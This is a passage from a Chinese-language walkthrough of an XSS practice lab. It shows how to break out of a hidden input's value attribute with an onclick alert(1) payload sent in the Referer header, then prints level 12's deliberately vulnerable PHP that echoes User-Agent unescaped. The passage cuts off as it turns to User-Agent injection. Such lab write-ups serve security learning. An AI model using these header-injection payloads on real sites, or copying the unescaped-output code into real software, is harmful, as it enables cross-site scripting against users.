 #### 构造XSS语句

绕过思路和上一关一样，但是提交参数的位置不是GET方式，而是`$_SERVER['HTTP_REFERER'];`，因此抓包后修改数据包，在HTTP头部中的Referer属性中提交XSS语句payload

原始input标签如下

```html
<input name="t_ref"  value="" type="hidden">
```

目的input标签如下

```html
<input name="t_ref"  value="" onclick="alert(1)" type="text" type="hidden">
```

则XSS语句如下(数据包中HTTP头部属性Referer中提交)

```html
" onclick="alert(1)" type="text
```

抓包修改或添加Refer属性

![](https://img.yatjay.top/md/202203061139372.png)

点击输入框，成功触发XSS语句

![](https://img.yatjay.top/md/202203061140681.png)

### Level-12

查看后端PHP代码

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_USER_AGENT'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ua"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```

类似上一关`$_SERVER['HTTP_REFERER'];`，是通过HTTP头的Referer属性提交XSS参数，本关卡是通过HTTP头的`User-Agent`属性来提交payload

正常提价GET参数`keyword`和`t_sort`后查看页面源代码，注意输出在表单里的`User-Agent`信息

